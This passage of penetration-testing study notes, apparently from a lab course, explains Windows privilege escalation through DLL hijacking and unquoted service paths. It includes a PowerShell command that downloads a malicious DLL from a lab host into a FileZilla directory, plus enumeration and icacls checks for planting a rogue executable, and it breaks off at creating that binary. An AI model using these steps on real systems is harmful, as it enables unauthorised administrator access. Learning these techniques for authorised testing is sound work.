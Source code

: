 		`iwr -uri http://192.168.48.3/TextShaping.dll -OutFile 'C:\FileZilla\FileZilla FTP Client\TextShaping.dll'
	Verify
		`net user`
		`net localgroup administrators`
	Done!

if its a service...
	`net stop <service>`
	`net start <service>`
	:D

if its a scheduled app... it will just run eventually
##### Unquoted Service Paths

Another priv esc method

Can use when we have WRITE permissions to a service's main directory or subdirectories but cannot replace files within them (FULL)

Explanation
	Service starts
		Windows CreateProcess function is used
		IpApplicationName is used to specify the name and path of the executable
			specifies name and PATH
			if PATH contains spaces and no quotation marks, we can potentially abuse this
Example of how Windows tries to locate correct path of an unquoted service
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

Exploit Summary
	Create a malicious executable
	place in a directory that corresponds to one of the interpreted paths
	match its name to interpreted filename
In the context of the example, we could name our executable **Program.exe** and place it in **C:\**, **My.exe** and place it in **C:\Program Files\**, or **My.exe** and place it in **C:\Program Files\My Program\**

Demonstration
	List of services with binary path
		`Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
		spaces are in path, so potentially vulnerable
	WMI Command-line (WMIC) is more effective
		`wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """`
	Check if we can Start-Service Stop-Service
		`Start-Service GammaService`
		`Stop-Service GammaService
		verified we have permissions
		no need to reboot
	How does Windows try to locate the correct path of the unquoted service GammaService?
		`C:\Program.exe
		`C:\Program Files\Enterprise.exe
		`C:\Program Files\Enterprise Apps\Current.exe
		`C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
	Check access rights to these paths
		`icacls "C:\`
		`icacls "C:\Program Files\`
			steve has not write permissions to these
		`icacls "C:\Program Files\Enterprise Apps
			W
			so we will place a malicious file named current.exe here
	Create malicious binary to add user